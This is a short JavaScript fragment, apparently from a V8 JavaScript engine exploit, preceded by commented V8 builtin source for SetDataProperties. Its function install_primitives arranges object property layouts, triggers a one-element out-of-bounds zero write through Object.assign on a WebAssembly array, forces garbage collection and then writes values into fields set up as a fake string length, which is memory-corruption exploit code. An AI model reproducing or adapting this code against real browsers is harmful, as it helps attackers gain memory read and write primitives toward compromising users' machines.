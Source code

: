 ```js
//    args.ForEach(
//        [=](TNode<Object> next_source) {
//          CallBuiltin(Builtin::kSetDataProperties, context, to, next_source);
//        },
//        IntPtrConstant(1));
//TF_BUILTIN(SetDataProperties, SetOrCopyDataPropertiesAssembler)
//  TailCallRuntime(Runtime::kSetDataProperties, context, target, source);
//RUNTIME_FUNCTION(Runtime_SetDataProperties)
//  JSReceiver::SetOrCopyDataProperties(...)
function install_primitives() {
    let src = {};
    for(let i = 0; i < (kMaxNumberOfDescriptors+1); i++) {
        src[`p${i}`] = 1;
    }
    //stops us from crashing in SetOrCopyDataProperties
    src.__defineGetter__("p0", function() {
        throw new Error("bailout");
    });
    //need to create the map beforehand to avoid descriptor arrays being allocated 
    //innapropriately
    let dummy = {};
    dummy.i1 = 0;
    dummy.i2 = 0;
    dummy.i3 = 0;
    dummy.i4 = 0;
    for(let i = 1; i <= 16; i++) {
        dummy[`p${i}`] = 0;
    }

    var o = {};
    //inline properties
    o.i1 = 0;
    o.i2 = 0;
    o.i3 = 0;
    o.i4 = 0;

    //external properties
    o.p1 = 0; //fake SeqTwoByteString length field
    for(let i = 2; i <= 15; i++) {
        o[`p${i}`] = 0;
    }
    let wasm_array = wasm.create_array(0);
    o.p16 = 0; //reallocates new property array twice as large
    
    var arr1 = [1.1];//, 1.1, 1.1, 1.1];
    var arr2 = [{}];

    %DebugPrint(wasm_array);
    %DebugPrint(o);

    try {
        //trigger 1 element OOB zero write
        Object.assign(wasm_array, src);
    } catch(err) {}
    
    gc_major();
    %DebugPrint(wasm_array);
    o.p9 = 1024;
    o.p11 = 1024;
    //%DebugPrint(o); //will crash
    
    %DebugPrint(arr1);
}
```

[byte0]: instance size